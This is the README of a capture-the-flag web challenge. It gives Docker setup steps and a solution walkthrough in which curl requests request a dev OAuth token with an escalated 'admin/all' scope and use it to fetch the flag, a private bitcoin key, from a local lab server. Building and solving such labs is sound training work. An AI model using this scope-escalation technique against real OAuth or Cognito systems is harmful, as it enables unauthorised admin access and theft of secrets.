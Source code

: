 # POOR: Proof of Overwhelming Richness

> docker build -t lh2025/`basename "$PWD"` .

Run with the flag

> docker run -e LH_FLAG=FlagTata -p 80:1234 lh2025/`basename "$PWD"`

# Deploy

Only give URL of the server, no explanation.

## Category

Hack


## Difficulty

Medium (easy with enough OAUTH/JWT/JWT-Token knowledge)

## Solve

- Get a (dev) JWT token with the dev "client", but reduce the scope

> curl --request POST \
--url http://localhost/cognito-proxy/oauth2/token \
--data grant_type=client_credentials \
--data client_id=1qconf4f2v146v0qi6kjn25l3m \
--data client_secret=ni1e9k9a25vp5eq2karankjn6atroof1r354s7havetpjunkj2d \
--data scope=admin/all  

- Use the token to get the flag (private bitcoin key)
> curl --request GET \
--url http://localhost/api/admin/bitcoin \
--header 'Authorization: Bearer $TOKEN' 


## Challenger path

- Go on home page, see client/secret for dev and example usage (with the header)
- Analyse /clients call to "discover" prod client/secret
- Play with the api and see that prod can't get the flag, but the flag is only on prod
- Understand that the env/dev header should match the scope
- See that prod don't use the header or scope
- "Unscope" the dev client to remove "env/dev" and keep the "admin/all" scope


## Possible improvement

- clean code (very ugly, but works)
- docker compose, to separate cognito and the api 
- use a real RS key (so JWT is still ok after restart)
- add some noise to avoid LLM/Burp/Random tools to find the flag to quickly ?

## Env variable

- LH_FLAG: flag to be displayed
- LH_SERVER_PORT: port to be used (default 1234)
- LH_SERVER_ADDRESS: 127.0.0.1 or 0.0.0.0
- LH_COGNITO_ISSUER: issuer of the cognito (if we want to change it)
- LH_COGNITO_KID: key id of the cognito (if we want to change it)
